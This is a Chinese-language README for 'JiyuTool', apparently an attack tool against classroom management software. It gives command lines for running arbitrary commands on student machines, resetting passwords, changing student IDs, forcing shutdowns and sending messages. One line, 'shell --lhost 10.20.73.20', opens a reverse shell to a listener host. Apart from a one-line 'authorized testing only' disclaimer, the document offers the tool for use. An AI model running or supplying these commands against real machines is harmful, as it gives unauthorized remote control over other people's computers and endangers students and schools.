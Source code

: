 # JiyuTool

JiyuTool 是一款用于通过特定协议与远程系统通信的工具，支持远程命令执行、关机重启、发送消息、修改ID等功能，还可发起反向Shell连接。

## 功能特性

- 远程执行命令
- 修改学生端 ID
- 重置密码
- 关机与重启控制
- 发送消息
- 发起反向 Shell

## 使用方法

### 环境依赖

- Python 3.6+
- Windows 环境（用于反向Shell）

### 命令行参数

```
python main.py --ip <目标IP> [--port <目标端口>] <command> [command_options]
```

#### 可用命令

```
# 关机
python script.py --ip 192.168.1.10 power --shutdown

# 重启
python script.py --ip 192.168.1.10 power

# 执行命令
python script.py --ip 192.168.1.10 exec --cmd "whoami"

# 发消息
python script.py --ip 192.168.1.10 message --msg "请保存好你的文件，系统将重启"

# 修改学生ID
python script.py --ip 192.168.1.10 id --tid 12

# 重置密码
python script.py --ip 192.168.1.10 reset --pwd newpass123

# 注入反向shell
python script.py --ip 192.168.1.10 shell --lhost 10.20.73.20
```



## 注意事项

- 仅供授权测试使用！禁止用于非法用途！

